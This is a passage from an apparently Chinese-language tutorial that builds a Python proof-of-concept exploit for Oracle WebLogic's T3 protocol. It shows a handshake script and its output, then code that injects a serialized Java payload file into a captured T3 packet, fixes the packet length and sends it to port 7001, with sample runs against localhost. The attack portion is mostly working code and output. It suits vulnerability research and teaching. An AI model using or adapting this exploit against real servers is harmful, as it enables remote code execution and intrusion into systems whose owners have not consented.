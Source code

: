 ```
sock.sendall(handshake)

data = sock.recv(1024)
print 'received "%s"' % data
```

执行一下看结果：

```
$python weblogic_basic_poc.py 127.0.0.1 7001
connecting to 127.0.0.1 port 7001
sending "t3 12.1.3
AS:255
HL:19
MS:10000000

"
received "HELO:10.3.6.0.false
AS:2048
HL:19

"
```

很好，和上面抓到的包一样，握手成功。继续下一步。 下一步我需要替换掉握手后的第一个数据包中的一组序列化数据，这个数据包原本是客户端请求WebLogic RMI发的T3协议数据包。假设我们替换第一组序列化数据：

```
# weblogic_basic_poc.py
# 第三个参数传入一个文件名，在本例中为刚刚生成的“payload.bin”
payloadObj = open(sys.argv[3],'rb').read()

# 复制自原数据包，从24到155
payload='\x00\x00\x05\xf8\x01\x65\x01\xff\xff\xff\xff\xff\xff\xff\xff\x00\x00\x00\x72\x00\x00\xea\x60\x00\x00\x00\x19\...omit...\x70\x06\xfe\x01\x00\x00'
# 要替换的Payload
payload=payload+payloadObj
# 复制剩余数据包，从408到1564
payload=payload+'\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61...omit...\x00\x00\x00\x00\x78'
# 重新计算数据包大小并替换原数据包中的前四个字节
payload = "`{`0`}``{`1`}`".format(struct.pack('!i', len(payload)), payload[4:])

print 'sending payload...'
sock.send(payload)
```

PoC构造完成，验证下效果：

```
$python weblogic_basic_poc.py 127.0.0.1 7001 payload.bin
connecting to 127.0.0.1 port 7001
sending "t3 12.1.3
AS:255
HL:19
MS:10000000

"
received "HELO:10.3.6.0.false
AS:2048
HL:19

"
sending payload...
```
